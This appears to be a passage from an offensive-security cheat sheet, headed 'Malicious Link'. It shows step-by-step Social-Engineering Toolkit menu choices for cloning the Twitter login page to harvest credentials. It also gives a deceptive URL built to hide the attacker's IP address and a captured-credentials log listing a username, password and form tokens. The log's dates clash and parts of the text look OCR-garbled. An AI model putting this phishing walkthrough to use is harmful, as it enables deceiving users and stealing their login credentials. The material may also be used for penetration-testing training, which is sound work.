 ### Malicious Link

**Using Social Engineering Toolkit (SET):**

```ruby
    # Social-Engineering Attacks
      set> 1
    
    # Website Attack Vectors
      set> 2
    
    # Site Cloner
      set:webattack>2
      # IP address: 192.168.1.22
      set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.22]:192.168.1.22
      set:webattack> Enter the url to clone:twitter.com/login
       [] Cloning the website: https://twitter.com/login [] This could take a little bit…
```

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.

```ruby

     [] You may need to copy /var/www/ into /var/www/html depending on where your directory structure is.
     Press {return} if you understand what we're saying here.
     [] Web Jacking Attack Vector is Enabled…Victim needs to click the link. [] The Social-Engineer Toolkit Credential Harvester Attack
     [] Credential Harvester is running on port 80 [] Information will be displayed to you as it arrives below:
    # go to web and open: https://google.com@accounts@0xc0.168.1.22
    
    192.168.1.24 - - [11/Feb/2019 01:54:46] "GET / HTTP/1.1" 200 -
     directory traversal attempt detected from: 192.168.1.24
    # opens a fake twitter login
    192.168.1.24 - - [01/Apr/2023 01:54:59] "GET /index.html HTTP/1.1" 404 -
    
    [] WE GOT A HIT! Printing the output: POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=veho43166188 
    POSSIBLE PASSWORD FIELD FOUND: session[password]=testpass123@ 
    
    PARAM: authenticity_token=ccfecb5221b3f2dfca275505ccc3fd824ac1ff2e PARAM: ui_metrics={"rf":{"a1fc4712673653dc721140c307b3d69bdf1debba19c11a88f047db3675dd013a":-234,"c74278047b48f1012b45b502858bd8416981f37a62e06d7b1a3b7fb029960145":99,"ece868d7ddab4e90b3b79cdef3f463c1edb1af8d9043aff0889136eff50b2a7a":-82,"ae942ff2a53c3475e676e8d6655e26999352ea85d97c4841e2f20cd2b810708d":-210},"s":"5sb3j3j2yR5o0-h0Q_ky-89k40N0EuZ7v7g4aEUCr5KyHp3tVmkracFE845oc-23ta2rQScujGno8eT-6iLLoiCiZz4DMKl65Q_cVhMPckCAQ6vdwu-iMWgphwtX5JSVWdLxI9kookHzpv3t22keXhnGrDeT2GLRPqVQBaTY0QO_zEyewzMmwjMIqyYGZWFV666gf94T0-rs4EGp-PhcMw_w23eQ2FEUKEMTaqJOF0u2wjOq4MacNxIoVas_UUPZKoiGqNhN5AWl0YpAXE6G-v6o80sQbZikdSz4062qvAl65WCE6CGDssXmqlDajIy9rpNy4WwNIHO5zxZBOR1wAAAWjbVmnh"}
     PARAM: scribe_log=
     POSSIBLE USERNAME FIELD FOUND: redirect_after_login=
     PARAM: authenticity_token=ccfecb5221b3f2dfca275505ccc3fd824ac1ff2e
     PARAM: remember_me=1
     [] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
```
